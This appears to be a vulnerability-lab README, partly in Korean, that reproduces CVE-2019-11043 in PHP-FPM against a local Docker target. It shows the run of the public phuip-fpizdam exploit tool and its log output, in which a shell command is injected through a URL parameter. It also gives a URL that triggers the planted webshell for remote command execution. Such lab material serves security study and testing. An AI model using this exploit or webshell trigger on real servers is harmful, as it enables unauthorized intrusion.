

# PHP-FPM Remote Command Execution (CVE-2019-11043)

References:

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## Environment setup

다음 명령을 통해 취약한 PHP 서버를 시작합니다.:

```
docker compose up -d
```

완료된 후, `http://your-ip:8080/index.php`에서 기본 페이지를 볼 수 있습니다.

## Vulnerability Reproduce

이 도구를 이용해서 취약점을 재현합니다. <https://github.com/neex/phuip-fpizdam>:

```
https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get github.com/neex/phuip-fpizdam
```

```
$ go run . "http://your-ip:8080/index.php"
2024/04/30 21:42:15 Base status code is 200
2024/04/30 21:42:15 Status code 502 for qsl=1800, adding as a candidate
2024/04/30 21:42:15 The target is probably vulnerable. Possible QSLs: [1790 1795 1800]
2024/04/30 21:42:15 Attack params found: --qsl 1795 --pisos 40 --skip-detect
2024/04/30 21:42:15 Trying to set "session.auto_start=0"...
2024/04/30 21:42:15 Detect() returned attack params: --qsl 1795 --pisos 40 --skip-detect <-- REMEMBER THIS
2024/04/30 21:42:15 Performing attack using php.ini settings...
2024/04/30 21:42:15 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/04/30 21:42:15 Trying to cleanup /tmp/a...
2024/04/30 21:42:15 Done!
```

성공적으로 실행이 되면 아래와 같이 출력됩니다.:



PHP-FPM의 백그라운드에 webshell이 작성되어 있으며, RCE를 트리거하기 위해 http://your-ip:8080/index.php?a=id 를 입력합니다.


